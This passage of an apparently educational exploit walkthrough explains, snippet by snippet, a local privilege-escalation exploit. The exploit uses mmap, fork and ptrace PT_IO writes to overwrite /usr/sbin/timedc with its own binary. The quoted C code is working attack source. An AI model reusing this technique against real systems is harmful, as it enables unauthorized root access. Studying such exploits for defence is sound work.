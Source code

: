 Now it tries to open the compiled binary of itself (av[0]) as from_fd, and
/usr/sbin/timedc as to_fd. And then the stat of the exploit binary is saved in a
stat struct called st. It'll later be used to get the size of the exploit
binary.

``` c++
if (((s = mmap(NULL, (size_t)st.st_size, PROT_READ,
     MAP_SHARED, from_fd, (off_t)0)) == MAP_FAILED) ||
             (d = mmap(NULL, (size_t)st.st_size, PROT_READ,
                     MAP_SHARED|MAP_NOSYNC, to_fd, (off_t)0)) == MAP_FAILED)
                             err(3, "mmap");
```

mmap is used then to map the exploit binary into memory as s and timedc as d.

Refer to mmap man pages for details.

``` c++
if ((pid = fork()) == -1)
     err(4, "fork");

if (!pid) {
     if (ptrace(PT_TRACE_ME, pid, NULL, 0) == -1)
             err(5, "ptraceme");

     return 0;
     }

if (ptrace(PT_ATTACH, pid, NULL, 0) == -1)
     err(6, "ptattach");

if (wait(&status) == -1)
     err(7, "wait");
```

Next it forks a child process. fork returns 0 to the child process, and the
child process id to the parent process.

Since !pid is true only for the child process, PT_TRACE_ME marks the child as
the traced process, This is for the kernel to know that some other process is
tracing this child.

PT_ATTACH is executed by the parent process, it attaches to the child to start
controlling it. Now we have two processes of the exploit, one tracing process,
and one traced process.

Finally with wait, it suspends the calling process until status is available for
terminated child process, or a signal is received from kernel. Since PT_TRACE_ME
is set for the child process, a signal from kernel is expected. That'll
explicitly tell us that we are now okay to start tracing.

``` c++
piod.piod_op = PIOD_WRITE_D;
piod.piod_offs = d;
piod.piod_addr = s;
piod.piod_len  = st.st_size;

if (ptrace(PT_IO, pid, (caddr_t)&piod, 0) == -1)
     err(8, "ptio");
```

